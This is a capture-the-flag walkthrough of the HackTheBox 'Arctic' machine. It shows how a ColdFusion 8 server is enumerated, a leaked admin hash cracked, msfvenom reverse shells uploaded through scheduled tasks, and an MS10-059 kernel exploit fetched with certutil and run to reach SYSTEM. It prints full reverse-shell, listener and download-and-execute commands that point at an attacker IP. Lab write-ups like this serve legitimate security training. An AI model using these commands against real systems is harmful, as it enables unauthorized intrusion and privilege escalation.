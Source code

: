 # HackTheBox - Arctic - Windows

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.10.11  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 16:14 EDT
Nmap scan report for 10.10.10.11
Host is up (0.022s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.52 seconds
```

## FMTP

- I find this fmtp protocol quite odd. Google was kinda frustrating on this so I just decided to try and go to the service with the browser: http://10.10.10.11:8500/
- And I got this page:  
![image](https://user-images.githubusercontent.com/96747355/163629674-5acab26a-b858-49a7-8cdc-4497677c6ef4.png)  
- Here is the content of the /cfdocs folder  
![image](https://user-images.githubusercontent.com/96747355/163629795-11f40e56-09a0-4cb4-8e01-9e27a15e2d80.png)  
- Let's try to get all files and folders with `wget -r --no-parent http://10.10.10.11:8500/` (it will take a while)
- The files seem to be related to coldfusion which is an adobe tool to develop web app.
- These [slides by Chris Gates](https://paper.bobylive.com/Security/LARES-ColdFusion.pdf) about coldfusion are very useful. This [wiki](https://nets.ec/Coldfusion_hacking) by nets.ec is also very useful
- Another useful article [here](https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)
- We know that it is using Adobe Coldfusion 8:  
![image](https://user-images.githubusercontent.com/96747355/163635400-a11f639e-0316-4fea-9959-e65e2ce159ef.png)  
- version `8,0,1,195765` to be exact:  
![image](https://user-images.githubusercontent.com/96747355/163635508-c709c74e-c14d-4bd0-884c-44eb3ea489da.png)  
- We have a login panel here: http://10.10.10.11:8500/CFIDE/administrator/
- We have the hash of the admin  

```bash
#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 
```
![image](https://user-images.githubusercontent.com/96747355/163635889-e7680cdf-619b-4e4f-b79c-c116d8fe1bef.png)  

- If we go on crackstation.net we can easily find the password `happyday`  

![crackstation](../.res/2022-09-04-07-14-23.png)  

- We can then connect to the panel  

![coldfusion](../.res/2022-09-04-07-18-51.png)  

- If we follow the slides by Chris Gates (page 85), turns out we can get rce using the schedule tasks
- Let's make a reverse shell exe file with msfvenom
  - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with meterpreter or `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with netcat
  - Set up a listener `rlwrap nc -lvp 4444`
  - We server our exe `python3 -m http.server 80`
- Now to execute it we have to click on "Schedule New Task" let's make it every minute and a half (has to be greater than 60 seconds) 
- the url is going to be `http://10.10.14.2/shell.exe`
- Let's try like this for now  
![Scheduled task](../.res/2022-09-04-08-26-35.png)
> For some reason the chars were written in greek so I had to write am and pm in greek... I do not speak greek at all but google showed me how to write `am` in greek. See here: https://www.proz.com/kudoz/english-to-greek/general-conversation-greetings-letters/684823-am-pm.html
  
> NOTE: I found out later that the time does not matter we can basically manually launch the tasks

- Ok another try without the greek chars cause it does not seem to work as well so if I type ony `08:30` instead of `8:37 πμ` the task is scheduled.

![shell2](../.res/2022-09-04-08-36-31.png)

- Third try
![3rd try](../.res/2022-09-04-08-48-58.png)  
- This is asking for a valid dir name. We can find some in server settings > Mappings (our file will be uploaded there so make sure to put it somewhere you will easily find it)
![mappings](../.res/2022-09-04-08-51-34.png)
- Now we can modify our task accordingly `C:\ColdFusion8\wwwroot\CFIDE\shell.exe`
![proper path](../.res/2022-09-04-08-53-24.png)
- Now let's do our system probe (page 87 of the slides)
- We click on define new probe
![probe](../.res/2022-09-04-09-00-53.png)
![probe2](../.res/2022-09-04-09-02-32.png)


> I do not get a shell this way either with meterpreter or nc even though the files are being fetch from my http server.

- Let's try to upload another type of payload and execute it through the directory listing misconfiguration. Let's try jsp (according to the doc "ColdFusion pages and JSP pages can interoperate in several ways" see here: https://helpx.adobe.com/coldfusion/developing-applications/using-web-elements-and-external-objects/integrating-jee-and-java-elements-in-cfml-applications/interoperating-with-jsp-pages-and-servlets.html)
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=5555 -f raw > shell.jsp` We generate our jsp shell
- `rlwrap nc -lvp 5555` we set our listener
- We upload it to our target with the scheduled Task
- This time our URL is `http://10.10.14.2/shell.jsp`
- And our output has to be saved like this: `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`
![jsp upload](../.res/2022-09-04-10-13-39.png)  
- I forgot to mention it before but the time does not really matter because we can just launch a task by clicking on the green icon here in front of the task  
![green icon](../.res/2022-09-04-10-15-38.png)
- Our shell gets fetch  
![fetch jsp](../.res/2022-09-04-10-16-19.png)
- And it is in our target  
![jsp in target](../.res/2022-09-04-10-17-08.png)
- Let's click on it and pray to catch the shell this time :)
- It finally works!!
![shell](../.res/2022-09-04-10-19-57.png)
- We get a shell as tolis

```dos
whoami
arctic\tolis
```

- Let's get the user flag  
![get user](../.res/2022-09-04-10-24-10.png)

> Another way (without needing the password) would also have been to use Metasploit https://www.exploit-db.com/exploits/16788 or a script like this one https://github.com/zaphoxx/zaphoxx-coldfusion/blob/main/2265.py
> - We would take the python script in our target, 
> - Generate the jsp with msfvenom, 
> - Setup our listener, 
> - And launch the python script that will upload our shell to the target
> - Navigate to the page with our shell

## Privesc

- Let's make a systeminfo and copy the output in a file to find an exploit
- We can use Windows exploit suggester on it `wes --update` first we update the db
- Then we pass it our file `wes sysinfo.txt `
- We can focus on privesc with this command `wes sysinfo.txt | grep -A8 "Elevation of Privilege"`
- We have this here which is also MS10-059

```bash
CVE: CVE-2010-2554
KB: KB982799
Title: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a
```
- Let's take the exploit in our attacking machine `wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe`
- We serve it with python web server
- We take it in our target `certutil.exe -urlcache -f http://10.10.14.2/MS10-059.exe MS10-059.exe`
- We set up a listener `rlwrap nc -lvp 5556`
- `MS10-059.exe 10.10.14.2 5556` we run our exploit (we wait a little)
- We have a root shell  
![root shell](../.res/2022-09-04-12-31-53.png)
- We just need to grab the root flag :)  
![root flag](../.res/2022-09-04-12-32-50.png)
